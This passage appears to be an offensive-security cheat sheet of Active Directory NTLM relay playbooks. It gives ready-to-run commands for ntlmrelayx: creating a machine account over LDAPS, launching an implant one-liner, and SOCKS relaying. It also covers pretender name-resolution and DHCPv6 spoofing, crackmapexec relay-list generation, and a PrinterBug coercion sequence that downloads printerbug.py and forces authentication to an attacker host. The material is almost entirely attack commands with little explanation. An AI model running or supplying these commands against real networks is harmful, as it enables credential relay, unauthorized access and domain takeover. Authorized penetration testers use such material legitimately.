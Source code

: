 ####  NTLMRelayX - Create Machine Account over LDAPS ( S required)
```bash
ntlmrelayx.py -t ldaps://domain.srhine.earth --add-computer
```

####  NTLMRelayX - Automate Impacket, CME over SOCKS https://github.com/He-No/ntlmrelayx2proxychains
```bash
python3 ntlmrelay2proxychains.py --action {shares|lsa|sam|...} [--exclude] [--adminonly] [--help]
```

####  NTLMRelayX - Execute command / Implant Launcher
```bash
oneliner=""
ntlmrelayx.py -6 -tf relays.txt -c $oneliner
```


## Phase 1c. Playbooks

#### Initial Relay to PrinterBug
##### Pretender Recon - see what's saying what to whom 
```bash
./pretender -i $if --dry --no-ra # without router advertisements
```

##### Local name resolution spoofing via mDNS, LLMNR and NetBIOS-NS as well as a DHCPv6 DNS takeover with router advertisement

##### You can disable certain attacks with --no-dhcp-dns (disabled DHCPv6, DNS and router advertisements), --no-lnr (disabled mDNS, LLMNR and NetBIOS-NS), --no-mdns, --no-llmnr, --no-netbios and --no-ra
```bash
./pretender -i $if --dont-spoof-for 172.20.48.1
```

##### Crackmapexec - Generate Relay List / initial SMB recon on CIDR
```bash
crackmapexec smb --gen-relay-list relays.txt $cidr
```

##### NTLMRelayX - Start w/ IPv6, edit ProxyChains config
```bash
./ntlmrelayx.py -6 -socks -smb2support -tf relays.txt
impacket-ntlmrelayx -6 -socks -smb2support -tf relays.txt
sudo vim /etc/proxychains4.conf
socks4 127.0.0.1 1080
```

##### Impacket - Printerbug straight and hail mary via socks w/ no password
```bash
attacker="192.168.0.243"
wget https://raw.githubusercontent.com/dirkjanm/krbrelayx/master/printerbug.py
chmod +x ./printerbug.py
##### Check service running
impacket-rpcdump $ip | grep -A 6 "spoolsv"
##### Straight up
./printerbug.py $fqdn/$user:$password@$ip $attacker
##### Relay without creds
impacket-ntlmrelayx -t smb://$ip -socks
proxychains ./printerbug.py -no-pass $fqdn/$user@$ip $attacker
share="\\192.168.0.243\share"
```